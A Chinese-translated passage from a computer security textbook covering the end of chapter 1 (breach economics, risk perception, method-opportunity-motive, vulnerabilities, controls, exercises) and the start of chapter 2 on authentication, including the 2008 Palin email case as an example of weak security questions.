Ko 和 Dorantes 对比了两组公司：一组（处理组）发生了数据泄露，另一组（对照组）未发生泄露但规模和行业相匹配。他们的发现令人震惊。与你可能推测的相反，泄露公司在泄露后的季度业绩并未下降，但其资产回报率在第三季度下降了。处理组与对照组公司的对比显示，对照组公司通常表现优于泄露公司。然而，泄露公司在第四季度表现优于对照组公司。

这些结果与其他研究人员的结论一致，即安全漏洞的长期经济影响微乎其微。原因有很多。例如，客户可能认为所有竞争对手都存在相同的漏洞和威胁，更换供应商无法降低风险。另一种可能的解释是，客户认为遭受漏洞的公司安全性更好，因为漏洞迫使公司加强控制，从而降低了类似漏洞再次发生的可能性。还有一种解释可能仅仅是客户的注意力持续时间短；随着时间的推移，客户忘记了漏洞，恢复照常营业。

### 安全风险量化的局限性与威胁感知

所有这些研究都存在局限性，包括样本量小和缺乏足够的数据。但它们清楚地展示了量化和验证安全风险影响的困难，并指出了短期效应与长期效应之间的差异。

---

尽管我们不应随意应用防护措施，但我们必然会针对我们认为最可能发生或破坏性最大的威胁进行防护。因此，理解我们如何感知威胁并评估其可能发生的概率和影响至关重要。侧边栏 1-4 总结了风险感知和决策制定方面的一些相关研究。这些研究表明，对于高影响安全问题这类相对罕见的事件，我们必须考虑到人们更关注影响而非实际发生可能性的方式。

---

#### 侧边栏 1-4 极端事件风险的感知

当某种不利事件频繁发生时，我们可以通过检查事件集合的频率和性质来计算其可能性和影响。例如，我们可以计算本周下雨的可能性，并对将接收到的降水英寸数做出合理的猜测；下雨是一种相当频繁的事件。但安全问题往往是极端事件：它们发生得不频繁，且在各种各样的情况下发生，因此很难将它们作为一个群体来研究并得出普遍结论。

Paul Slovic 关于风险的研究探讨了极端事件的特殊困难。他指出，在这种情况下评估风险既是一项政治任务，也是一项科学任务。他指出，我们倾向于让价值观、过程、权力和信任影响我们的风险分析 [SLO99]。

从 Fischoff 等人的研究 [FIS78] 开始，研究人员沿着两个基于感知的轴来描述极端风险：对风险的恐惧程度和风险未知的程度。心理学家称这些对风险的感受为“情感”，它们使研究人员能够通过将风险放置在由这两个感知定义的平面上来讨论相对风险。Loewenstein 等人的一项研究 [LOE01] 描述了风险感知如何受关联（与已经历的事件）和情感的影响，其程度至少不亚于理性，甚至更大。事实上，如果这两种影响相互竞争，情感通常会战胜理性。

前景理论强化了风险分析的这一特征：即研究人们如何利用理性和情感做决策。Kahneman 和 Tversky [KAH79] 表明，人们倾向于高估罕见、未经历事件的发生可能性，因为他们的恐惧感和未知感通常会主导对低发生可能性的分析性推理。相反，如果人们经历过类似的结果及其可能性，他们的恐惧感会减弱，甚至可能低估罕见事件。换句话说，如果罕见事件的影响很大（高恐惧），人们就会关注影响，而不管可能性如何。但如果罕见事件的影响很小，他们就会关注可能性。

---

让我们更仔细地看看安全威胁的本质。我们已经看到，一方面——其潜在危害——是它可能造成的损害程度；这一方面是风险的**影响**组成部分。我们还考虑威胁**可能性**的大小。一个可能的威胁不仅仅是有人想实施的威胁，而是实际上可能发生的威胁。有些人可能白日梦想通过抢劫银行发财；然而，大多数人会因为其难度（如果不是因为其不道德性或风险）而拒绝这个想法。可能性的一个方面是可行性：是否可能完成攻击？如果答案是否定的，那么可能性为零，因此风险也为零。因此，评估风险的一个好起点是看所提议的行动是否可行。正如我们接下来所描述的，三个因素决定了可行性。

---

**安全支出基于潜在危害的影响和可能性——这两者几乎都无法精确衡量。**

---

#### 方法-机会-动机

恶意攻击者要想成功，必须具备三个条件：方法、机会和动机，如图 1-11 所示。粗略地说，方法是“怎么做”；机会是“何时做”；动机是“为什么做”。剥夺攻击者这三者中的任何一个，攻击都不会成功。让我们单独检查这些属性。



**图 1-11** 方法-机会-动机

#### 方法

**方法**是指实施攻击所需的技能、知识、工具和其他东西。想想想做某事的漫画人物，例如偷窃珍贵珠宝，但这些人物太笨拙了，他们的每一步都注定会失败。这些人缺乏成功的能力或方法，部分原因是没有珠宝窃贼课程或《傻瓜入室盗窃指南》之类的书。

然而，任何人都能找到大量关于计算的课程和书籍。特定计算机系统型号的知识在书店和互联网上广泛可用。大众市场系统（如 Microsoft、Apple 或 Unix 操作系统）以及常见软件产品（如文字处理器或数据库管理系统）都可以轻松购买，因此潜在攻击者甚至可以获得用于实验和完善攻击的硬件和软件。一些制造商发布详细规范，说明系统是如何设计或运行的，作为希望实现其他互补产品的用户和集成商的指南。各种攻击工具——脚本、模型程序和测试弱点的工具——都可以从互联网上的黑客网站获得，以至于许多攻击只需要攻击者具备下载并运行程序的能力。**脚本小子**一词描述的是下载完整攻击代码包、只需输入一些细节来识别目标并让脚本执行攻击的人。通常，只有时间和意愿限制着攻击者。

#### 机会

**机会**是指执行攻击的时间和访问权限。你听说一套很棒的公寓刚空出来，于是冲到租赁代理那里，却发现别人五分钟前就租走了。你错失了机会。

许多计算机系统为攻击提供了充足的机会。面向公众的系统根据定义是可访问的；通常其所有者会特别小心地使其完全可用，以便如果一个硬件组件发生故障，所有者有备用组件可立即投入使用。其他人对保护计算机的必要性毫无察觉，因此无人看管的笔记本电脑和不安全的网络连接为攻击提供了充足的机会。一些系统拥有用于管理或维护的私有或未记录的入口点，但攻击者也可以找到并利用这些入口点来攻击系统。

#### 动机

最后，攻击者必须有**动机**或理由想要攻击。你很可能有充足的机会和能力向邻居的窗户扔块石头，但你不会。为什么不？因为你没有伤害邻居的理由：你缺乏动机。

我们已经描述了计算机犯罪的一些动机：金钱、名声、自尊、政治、恐怖。通常很难确定攻击的动机。有些地方是“诱人目标”，意味着它们对攻击者极具吸引力。热门目标包括执法部门和国防部的计算机，也许是因为人们推测它们受到良好的保护（因此它们构成了挑战，而一次成功的攻击能显示攻击者的高超技艺）。其他系统遭到攻击是因为它们容易受攻击。还有一些系统仅仅因为存在而遭到随机攻击。

***

**方法、机会和动机对于攻击成功均不可或缺；剥夺其中任一要素，攻击就会失败。**

***

通过证明可行性，方法、机会和动机这三个因素决定了攻击能否成功。这些因素使攻击者占据优势，因为它们是攻击者必须具备的素质或优势。另一个因素——这次是有利于防御者的——决定了攻击是否会成功：攻击者需要一个漏洞，一个无防御的攻击位置。如果防御者消除了漏洞，攻击者就无法发动攻击。

## 1.4 漏洞

正如我们在本章前面所指出的，**漏洞**是计算机系统安全中的弱点，例如在程序、设计或实现方面，可能被利用造成损失或危害。设想一家银行，大门口有持枪警卫，柜台后有防弹玻璃保护，入口处有厚重的金属保险库，需要多把钥匙才能进入。要抢劫银行，你必须想办法利用这些防御措施未覆盖的弱点。例如，你可能贿赂出纳员，或冒充维修工人。


# 计算机系统漏洞与控制措施

计算机系统也存在漏洞。在本书中，我们将探讨许多漏洞，如薄弱的身份认证、缺乏访问控制、程序错误、有限或不足的资源，以及不充分的物理防护。每个漏洞若配合可信的攻击，都可能危害机密性、完整性或可用性。每个攻击向量都旨在利用特定的漏洞。

***

**漏洞是可能允许危害发生的弱点。**

***

安全分析师提到系统的**攻击面**，即系统漏洞的完整集合——包括实际和潜在的漏洞。因此，攻击面包括物理危害、外部人员的恶意攻击、内部人员的隐蔽数据窃取、失误和冒充。尽管此类攻击的可能性从容易到极不可能不等，分析师必须考虑所有可能性。

我们的下一步是寻找通过中和漏洞来阻止威胁的方法。

## 1.5 控制措施

**控制措施**或**对策**是应对威胁的手段。当威胁针对漏洞成为现实时，就会造成危害。因此，为了防范危害，我们可以消除威胁、封堵漏洞，或两者兼施。危害发生的可能性称为风险。我们可以通过几种方式处理危害：

*   **预防**它，通过阻断攻击或封堵漏洞
*   **威慑**它，通过增加攻击难度但不使其不可能
*   **转移**它，通过使另一个目标更具吸引力（或使该目标吸引力降低）
*   **减轻**它，通过降低其影响的严重程度
*   **检测**它，无论是在发生时还是事后一段时间
*   **恢复**受其影响

当然，这些控制措施可以同时使用多种。因此，例如，我们可能试图预防入侵——但如果我们怀疑无法预防所有入侵，我们可能还会安装检测装置以预警即将发生的攻击。而且我们应该制定事件响应程序，以便在入侵确实成功时协助恢复。

***

**安全专业人员在控制措施的成本与效果、危害发生的可能性与严重性之间寻求平衡。**

***

为了探讨试图防止利用计算系统漏洞的控制措施或对策，我们首先从传统的物理安全增强手段入手。在中世纪，城堡和要塞的建造是为了保护内部的人员和贵重财产。要塞可能具备一项或多项安全特性，包括

*   坚固的大门以击退入侵者
*   厚重的墙壁以抵御投掷或发射的物体
*   周围的护城河以控制进入
*   箭垛让弓箭手射击逼近的敌人
*   女墙让居民从屋顶探出身子向攻击者倾倒滚烫或恶心的液体
*   吊桥以限制授权人员进入
*   闸门以限制吊桥以外的进入
*   看门人核实只有授权人员和货物才能进入

同样，今天我们采用多管齐下的方法来保护家庭和办公室。我们可能将门上的坚固锁具与防盗报警器、加固窗户，甚至爱管闲事的邻居结合起来，以监视我们的贵重物品。在每种情况下，我们选择一种或多种方式来威慑入侵者或攻击者，我们的选择不仅基于我们所保护物品的价值，还基于我们认为攻击者或入侵者为进入内部所愿付出的努力。

计算机安全具有相同的特性。我们有许多可用的控制措施。有些比其他的更容易使用或实施。有些比其他的更便宜。还有一些比其他的更难让入侵者绕过。图 1-12 说明了我们如何使用控制措施的组合来保护我们的宝贵资源。我们根据所保护的内容、保护成本与损失风险的对比，以及我们认为入侵者为达到目的会付出多大努力，来使用一种或多种控制措施。



**图 1-12** 控制措施的效果

在本节中，我们将概述可用的控制措施。在本书的其余部分，我们将探讨如何针对特定类型的威胁使用控制措施。

我们可以将控制措施分为三大类，它们在很大程度上是相互独立的。下表列出了这些类别及各类控制措施的若干示例。

*   **物理控制措施**通过使用有形物体来阻止或阻断攻击，例如墙壁和围栏
    *   锁
    *   （人力）警卫
    *   喷淋系统和其他灭火器
*   **程序**或**管理控制措施**使用命令或协议，要求或建议人们如何行动；例如，
    *   法律、法规
    *   策略、程序、指南
    *   版权、专利
    *   合同、协议
*   **技术控制措施**利用技术（硬件或软件）应对威胁，包括
    *   密码
    *   程序或操作系统访问控制
    *   网络协议
    *   防火墙、入侵检测系统
    *   加密
    *   网络流量调节器

（注：术语“逻辑控制”也被使用，但有人用它指代管理控制，也有人用它指代技术控制。为避免混淆，我们不使用该术语。）

如图 1-13 所示，在选择合适的对策类型时，你可以从要保护的资产和威胁类型两个方面考虑。这些类别没有哪一个必然优于或优于其他类别；它们以不同方式发挥作用，产生不同结果。使用**重叠控制**或**纵深防御**可能很有效：即使用多种控制措施或多类控制措施来实现防护。



**图 1-13** 对策类型

## 1.6 结论

计算机安全旨在确保计算系统及其组件的机密性、完整性和可用性。计算系统的三个主要部分会遭受攻击：硬件、软件和数据。这三者及其之间的通信均易受计算机安全漏洞的影响。反过来，那些有意破坏系统的人员和系统可以设计攻击来利用这些漏洞。

在本章中，我们解释了以下计算机安全概念：

*   安全情况发生在许多日常活动中，尽管有时很难区分安全攻击与普通的人为或技术故障。遗憾的是，狡猾的攻击者利用这种混淆，可能会让他们的攻击看起来像简单的、随机的故障。
*   威胁是指可能造成危害的事件。漏洞是指可能导致危害发生的弱点。这两个问题相互结合：单独存在时均不造成危害，但威胁利用漏洞即意味着损害。为控制此类情况，我们可以阻止或减轻威胁，或封堵漏洞（或两者兼施）。
*   我们很少能实现完美安全：即不存在可行的威胁和可利用的漏洞。有时我们未能识别威胁，有时我们可能无法或不愿封堵漏洞。不完美的安全并非坏事；相反，它体现了一种平衡艺术：控制特定的威胁和漏洞，采取合理的对策，并接受未防范情况带来的危害风险。
*   攻击者需要三个条件：方法——实施成功攻击所需的技能和知识；机会——实施攻击所需的时间和访问权限；动机——想要攻击的理由。遗憾的是，这三者均不缺乏，这意味着攻击不可避免。

在本章中，我们介绍了威胁与危害、漏洞、攻击与攻击者以及对策的概念。攻击者利用威胁，通过针对有价值资产的漏洞利用来造成危害，而我们希望设计对策以消除手段、机会和动机。这些概念是我们学习、理解和掌握计算机安全所需的基础。

对策和控制可应用于数据、程序、系统、物理设备、通信链路、环境和人员。有时需要多个控制来覆盖单个漏洞，但有时一个控制可同时解决多个问题。

### 1.7 接下来是什么？

本书其余部分围绕计算机安全的主要方面或组成部分进行组织。正如你在几乎每日的新闻报道中所见，计算机安全事件层出不穷。新闻的本质是常报道失败，鲜报道成功。你几乎读不到关于黑客试图闯入银行计算系统，却因银行部署了强大的分层防御而被挫败的报道。事实上，被击退的攻击远多于成功的攻击，但这种良好局面不会成为有趣的新闻条目。

尽管如此，我们不想以安全控制失效的案例为起点。相反，在第 2 章中，我们将首先介绍三种强大且广泛使用的安全防护方法。我们称这三种为我们的安全工具箱，部分原因在于它们有效，也在于它们适用。我们在本书几乎每一章都会提及这些技术，因此我们不仅要让它们在开篇占据显要位置，还要帮助你将其牢记于心。我们的三大核心工具是识别与认证、访问控制和加密。

在介绍这三种基本工具后，我们将引入计算机安全适用的各个领域。我们从最简单的计算场景——单个程序——入手，在第 3 章中探讨计算机代码的问题与防护。我们还将探讨恶意代码，如病毒和特洛伊木马（并将定义这些术语及其他有害程序类型）。正如你将通过其他方式看到的，没有魔法能让糟糕的程序变得安全，也无法将程序员变成防护大师。不过，我们确实指出了计算机代码中出现的一些漏洞，并描述了应对这些弱点的方法，无论是在程序开发期间还是程序执行时。

现代计算涉及网络，尤其是互联网的使用。我们首先关注网络计算如何影响个人，主要通过浏览器和电子邮件等基本网络交互。在第 4 章中，我们将探讨用户如何被恶意代码的熟练编写者欺骗。这些攻击倾向于影响用户数据的机密性保护和其程序的完整性。

第 5 章涵盖操作系统，延续了我们从用户可直接看到并影响的事物中抽离的路径。我们将了解操作系统能为用户的程序和数据提供哪些保护，最常见的是针对机密性或完整性的攻击。我们还将看到操作系统的强度如何被攻击（称为根工具包/Rootkit）所削弱，此类攻击直接针对操作系统，使其无法保护自己或其用户。

在第 6 章中，我们回归网络主题，这次着眼于整个网络及其对用户跨网络安全通信数据能力的影响。我们还将研究一种称为拒绝服务的攻击，正如其名，这是可用性失效的首个主要示例。

我们在第 7 章中探讨数据、数据库和数据挖掘。有趣的案例涉及大型数据库，其中个人私密数据的机密性是目标。数据库中数据的完整性也是一个重要关注点。

在第 8 章中，我们进一步远离个人用户，研究云计算——一项日益流行的技术。企业发现将数据存储“在云端”既方便又具成本效益，个人也如此做以共享访问音乐、照片等内容。然而，这一趋势涉及安全风险。

你可能已注意到我们的结构：我们按从用户向外扩展的顺序组织内容，涵盖程序、浏览器、操作系统、网络和云，这是一个从近及远的递进过程。在第 9 章中，我们因另一个原因回归用户：探讨隐私，一种与机密性紧密相关的属性。我们在此的论述独立于数据所在位置：个人计算机、网络或数据库。隐私是我们作为人类应享有的属性，计算机安全有助于保护它，正如我们在该章所呈现的。

在第 10 章中，我们将探讨与安全相关的计算管理的若干主题。安全事件会发生，计算设施需做好响应准备，无论起因是黑客攻击、软件灾难还是火灾。管理者还必须决定采用何种控制，因为对策需要花费成本，必须明智支出。计算机安全防护难以评估：生效时你察觉不到。执行风险分析和为安全构建论据是重要的管理任务。

某些安全防护超出了个人的应对范围。来自外国的有组织犯罪是政府必须通过法律体系处理的问题。在第 11 章中，我们将探讨影响计算机安全的法律。我们还将审视道德标准，即计算领域何为“正确”。

### 1.8 练习

**1.** 区分漏洞、威胁和控制。

**2.** 盗窃通常会导致某种伤害。例如，如果有人偷了你的车，你可能会遭受经济损失、不便（因失去交通工具）和情绪困扰（因个人财产和空间受到侵犯）。列举公司因计算机设备被盗而可能遭受的三种伤害。

**3.** 列举公司因电子间谍活动或未经授权查看机密公司资料而可能遭受的至少三种伤害。

**4.** 列举当程序或公司数据的完整性受损时，公司可能遭受的至少三种损害。

**5.** 列举公司因服务损失（即可用性失效）而可能遇到的至少三种伤害。列出失去访问权限的产品或能力，并解释这种损失如何损害公司。

**6.** 描述一个你因计算机安全失效而遭受伤害的情况。该失效是恶意的还是非恶意的？攻击是专门针对你的，还是普遍性的而你只是不幸的受害者？

**7.** 描述汽车中存在的两个漏洞示例，针对这些漏洞汽车制造商已实施了控制措施。说明你认为这些控制措施是有效、部分有效还是无效，并给出理由。

**8.** 防止意外软件删除的一种控制措施是保存程序的所有旧版本。当然，就存储成本而言，这种控制措施代价高得令人望而却步。建议一种成本较低的防止意外软件删除的控制措施。你的控制措施对所有可能导致软件删除的原因都有效吗？如果不是，它无法应对哪些威胁？

**9.** 在你的个人计算机上，谁可以安装程序？谁可以更改操作系统数据？谁可以替换操作系统的部分组件？这些操作中是否有可以远程执行的？

**10.** 假设一个打印工资单的程序秘密泄露了每月收入超过特定数额的员工名单。可以建立什么控制措施来限制这种泄露的漏洞？

**11.** 保护数据的机密性、完整性和可用性，是对中断、截获、修改和伪造这四种担忧的重述。前三个概念与后四个概念有何关联？也就是说，这四个概念中是否有任何一个等同于前三个概念中的一个或多个？前三个概念中的一个是否包含于后四个概念中的一个或多个之中？

**12.** 你认为未经授权企图闯入（即获取访问权或使用权）计算系统的行为应该是非法的吗？为什么？

**13.** 描述一个例子（本章提到的除外），说明其机密性有时效性较短，比如一天或更短。再描述一个例子，说明其机密性有时效性超过一年。

**14.** 你目前是否使用任何计算机安全控制措施？如果有，是什么？你试图防范什么攻击？

**15.** 描述一个绝对拒绝服务（即用户从计算机得不到任何响应）对用户构成严重问题的例子。再描述一个 10% 拒绝服务（即用户的计算仍在进行，但速度比正常慢 10%）对用户构成严重问题的例子。未经授权的人员访问计算系统会导致合法用户遭受 10% 拒绝服务吗？如何导致？

**16.** 当你说软件质量高时，是什么意思？安全性在你的质量定义中处于什么位置？例如，一个不安全的应用程序还能算“优秀”吗？

**17.** 开发人员通常从故障和失效的角度来考虑软件质量。故障是开发人员通过阅读代码可以发现的问题（例如永不终止的循环或语句中位置错误的逗号）。失效是用户可见的问题，例如系统崩溃或调用了错误的函数。因此，故障可能存在于程序中但从未成为失效，因为触发故障转化为失效的条件从未被满足。软件漏洞如何融入这种故障和失效的体系中？每个故障都是漏洞吗？每个漏洞都是故障吗？

**18.** 考虑一个在你的网站上显示你所在城市当前时间和温度的程序。谁可能想攻击你的程序？他们可能想造成什么类型的伤害？他们可能利用什么样的漏洞来造成伤害？

**19.** 考虑一个允许消费者从网上订购产品的程序。谁可能想攻击该程序？他们可能想造成什么类型的伤害？他们可能利用什么样的漏洞来造成伤害？

**20.** 考虑一个用于接收和统计选举投票的程序。谁可能想攻击该程序？他们可能想造成什么类型的伤害？他们可能利用什么样的漏洞来造成伤害？

**21.** 考虑一个允许一城市的外科医生通过互联网连接协助另一城市患者手术的程序。谁可能想攻击该程序？他们可能想造成什么类型的伤害？他们可能利用什么样的漏洞来造成伤害？

# 2. 工具箱：认证、访问控制和密码学

---

### 章节主题：

- 认证、能力与局限性
- 认证的三大基础：知识、特征、持有物
- 认证机制的强度
- 访问控制的实现
- 加密的应用
- 对称加密与非对称加密
- 消息摘要
- 签名与证书

---

正如医生有听诊器、木匠有卷尺和直角尺，安全专业人员也有常用的工具。其中三个安全工具是认证、访问控制和密码学。在本章中，我们将介绍这些工具，并在后续章节中反复使用这些工具来解决广泛的安全问题。

### 从某种意义上说，自从有感知的生物开始积累值得保护的事物以来，安全性就没有改变过

系统所有者会建立安全策略，无论是正式还是非正式、显式还是隐式——也许简单到“不允许任何人拿走我的食物”——并开始采取措施来执行该策略。随着主角从丛林转移到中世纪战场、现代战场、再到互联网，威胁的性质发生了变化，可用防护的性质也是如此，但它们的战略本质在很大程度上保持不变：攻击者想要防御者拥有的东西，因此攻击者会追逐它。防御者有许多选择——战斗、建立屏障或报警系统、逃跑躲藏、降低目标对攻击者的吸引力——而这些选择在现代计算机安全中都有对应的类比。具体细节会变，但大局保持不变。

在本章中，我们通过研究这些大局为计算机安全奠定基础。我们将探讨许多普遍存在的安全策略，确定每种策略有效应对的威胁，并给出代表性对策的示例。在本书的其余部分，当我们深入探讨操作系统、编程、网站和浏览器以及网络中使用的具体技术安全措施时，我们将一次又一次地重温这些相同的策略。多年以后，当我们都在使用甚至尚未被想象出来的技术时，本章应当依然像今天一样具有现实意义。

安全专业人员通过发现对计算系统机密性、完整性和/或可用性的威胁和漏洞来分析情况。通常，控制这些威胁和漏洞涉及一项策略，该策略规定*谁*（哪些主体）可以访问*什么*（哪些客体）*如何*（通过何种手段）访问。我们在第 1 章中介绍了该框架。但现在我们想更深入地探讨此类策略是如何工作的。为了有效，策略执行必须准确地确定*谁*。也就是说，如果策略规定 Adam 可以访问某物，而其他人冒充 Adam，则安全失效。因此，为了正确执行安全策略，我们需要方法来确定主体身份准确无误，排除合理怀疑。准确识别的特性称为认证。认证及其技术和技术手段是安全专业人员的第一个关键工具。

当我们介绍安全策略时，并未明确陈述其反面：某主体被允许以特定模式访问某客体，但除非获得授权，否则所有其他主体*不*允许访问该客体。没有此类限制的策略实际上毫无用处。如果任何其他主体都可以在未经策略授权的情况下访问该客体，那么规定某主体可以访问该客体有什么用呢？因此，我们需要方法将访问限制在*允许*名单上的主体，就像凭票检票让剧场观众入场看戏，或核对嘉宾名单让受邀者签到参加派对。有人或某物控制访问，例如，检票员收票或主人管理嘉宾名单。仅允许授权的访问称为访问控制。实现访问控制的机制是另一个基本的计算机安全工具。

假设你试图限制在人口稠密城市的开放公园举行的足球赛的入场人数。没有围栏、大门或护城河，你无法限制谁能观看比赛。但假设你拥有超能力，能让球员穿上隐形制服。你只向被允许观看比赛的人发放特殊眼镜；其他人可能会看，但什么也看不见。虽然这个场景纯属幻想，但这种隐形技术确实存在，称为加密。简单来说，加密是一种工具，我们可以通过它转换数据，使只有预期的接收者（拥有密钥，相当于反隐形眼镜）才能推导出隐藏的比特。本章的第三个也是最后一个基本安全工具是加密。

在本章中，我们将描述这些工具，并给出一些示例以帮助你理解这些工具如何工作。但这些工具的大多数应用出现在后续章节中，我们将在更完整的安全情境背景下详述它们的用途。在本章的大部分内容中，我们将剖析这三个基本安全工具：认证、访问控制和加密。

## 2.1 认证

你的邻居认出你，经常见到你，知道你是应该进你家的人。你的邻居也能注意到陌生人，特别是当那个人做一些可疑的事情时，比如在你家门口徘徊、上下打量过道、或捡起一块大石头。将这些可疑事件与听到玻璃破碎的声音结合起来，你的邻居甚至可能会报警。

计算机用电子交互取代了许多面对面的交互。没有警觉的邻居来察觉异常，人们需要其他机制来区分授权方和未授权方。因此，计算机安全的基础是受控访问：*某人*被授权对*某物*采取*某操作*。我们将在本章后面探讨访问控制。但为了使访问控制生效，我们需要确定“某人”到底是谁。在本节中，我们介绍认证，即确定或确认身份的过程。

计算机系统没有我们在面对面交流中用来识别朋友的那些线索。相反，计算机依赖数据来识别他人。确定一个人真正是谁包含两个独立的步骤：

*   **标识**是断言一个人是谁的行为。
*   **认证**是证明该断言身份的行为：即证明这个人就是她自称的那个人。

***

**标识是断言一个人是谁。**

**认证是证明该断言身份。**

***


我们从寻求被识别的人的角度描述这些步骤，为简便起见使用“人”一词。实际上，这种识别发生在人与人之间、计算机进程（正在执行的程序）、网络连接、设备和类似的活动实体之间。在安全领域，所有这些实体被称为**主体**。

标识和认证这两个概念很容易且经常被混淆。身份（如姓名）通常是众所周知的、公开的、不受保护的。另一方面，认证必须受到保护。如果某人的身份是公开的，任何人都可以声称是那个人。区分冒充者和真实人物的是认证证明。

### 标识与认证

身份通常是众所周知的、可预测的或可猜测的。如果你给某人发送电子邮件，你会隐式地发送你的电子邮件账户 ID，以便对方回复你。在在线讨论中，你可能会使用屏幕名称发布评论，以关联你的各种发帖。你的银行账号印在你开出的支票上；你的借记卡账号显示在你的卡上，等等。在每种情况下，你都透露了你身份的一部分。请注意，你的身份不仅仅是你的名字：你的银行账号、借记卡号、电子邮件地址和其他事物都是人们和进程识别你的方式。

#### 有些账户 ID 并不难猜测

有些账户 ID 并不难猜测。某些地方将用户 ID 分配为用户的姓氏加上名字的首字母。其他地方则使用三个首字母或其他外部人员容易预测的方案。通常为了在线交易方便，您的账户 ID 就是您的电子邮件地址，以便于记忆。其他账户则通过电话号码、社会安全号码或其他身份号码来识别您。由于需要记住的账户太多，您可能会欢迎那些通过您熟知且常用的事物来识别您的地方。但常用也意味着其他人也能知道或猜测到它。出于这些原因，许多人可以轻易地（尽管是虚假地）声称是您，只需出示您的一个已知标识符即可。

#### 身份通常是公开或众所周知的。认证应当是私有的

另一方面，认证应当是可靠的。如果标识宣称您的身份，那么认证则确认您就是您所声称的那个人。尽管标识符可能广为人知或容易确定，但认证应当是私有的。然而，如果认证过程不够强健，它就不会安全。例如，考虑一下一位政治候选人的电子邮件是如何因认证过程不够私密而被攻破的，详见侧边栏 2-1。

##### 侧边栏 2-1 副总统候选人莎拉·佩林的电子邮件泄露

2008 年美国总统大选期间，副总统候选人莎拉·佩林的个人电子邮件账户被黑客入侵。电子邮件内容和佩林的联系人列表被发布在一个公共公告板上。随后，田纳西大学 20 岁的学生大卫·科内尔因未经授权访问计算机获取信息被判有罪，并被判处一年零一天监禁。

一名大学生怎么可能访问到一位高调公职人员的计算机？当时她是阿拉斯加州长，也是受美国特勤局保护的美国副总统候选人。很简单：他只是假装成了她。但肯定没人（除了也许喜剧演员蒂娜·菲）能成功冒充她。以下是攻击有多么容易。

佩林州长的电子邮件账户是 `gov.palin@yahoo.com`。该账户 ID 因新闻报道而广为人知，早前曾有事件涉及佩林使用个人账户处理公务；即使没有宣传，该账户名也不难猜测。

但密码呢？不，该学生并没有猜密码。他只需假装是佩林，声称她忘记了密码。雅虎向科内尔询问了佩林开户时设置的安全问题：出生日期（可从维基百科查到）、邮政编码（公众所知，尤其是因她不住官邸而引起公众关注）、以及她在哪里遇见丈夫（竞选期间流传的非官方传记一部分：她和丈夫高中时相识）。有了这三个答案，科内尔就能修改她的密码（改为“popcorn”，一种大多数大学生喜欢的食物）。从那时起，科内尔实际上就是佩林，而真正的佩林无法访问自己的电子邮件账户，因为她不知道新密码。

认证机制利用以下三种特质中的任意一种来确认用户身份：

*   **用户`知道`的事物**。密码、PIN 码、口令、秘密握手、母亲娘家姓等都是用户可能知道的示例。
*   **用户`固有`的事物**。这些认证器称为生物特征识别，基于用户的身体特征，如指纹、声纹或面部（照片）。这些认证方法由来已久（我们通过面孔或电话中的声音识别朋友），但才刚开始用于计算机认证。
*   **用户`拥有`的事物**。身份证件、物理钥匙、驾照或制服都是人们拥有的、能使其被识别的常见示例。

可以结合两种或多种形式；例如，银行卡和 PIN 码结合了用户拥有的事物（卡）和用户知道的事物（PIN）。

#### 认证基于您知道、固有或拥有的事物

尽管密码是最早的计算机认证形式且依然流行，但这些其他形式正变得更易用、成本更低且更普遍。在以下章节中，我们将探讨这些认证形式中的每一种。

##### 基于短语和事实的认证：您知道的事物

密码保护似乎为确认身份相关信息提供了一个相对安全的系统，但人为做法有时会降低其质量。让我们探讨认证中的漏洞，重点关注最常见的认证参数——密码。在本节中，我们将考虑密码的本质、选择标准以及用于认证的方法。在阅读以下关于密码漏洞的讨论时，请思考这些身份攻击对您熟悉的安全问题和其他认证方案会有多大效力。并请记住，关于我们的大量信息是已知的——有时是因为我们自己泄露的——正如侧边栏 2-2 所述。

###### 侧边栏 2-2 Facebook 页面解答了安全问题

加利福尼亚州萨克拉门托 23 岁居民乔治·布朗克于 2011 年 1 月 13 日对包括计算机入侵、虚假冒充和持有儿童色情制品在内的指控认罪。他的犯罪涉及利用从受害者 Facebook 账户获取的数据冒充女性。

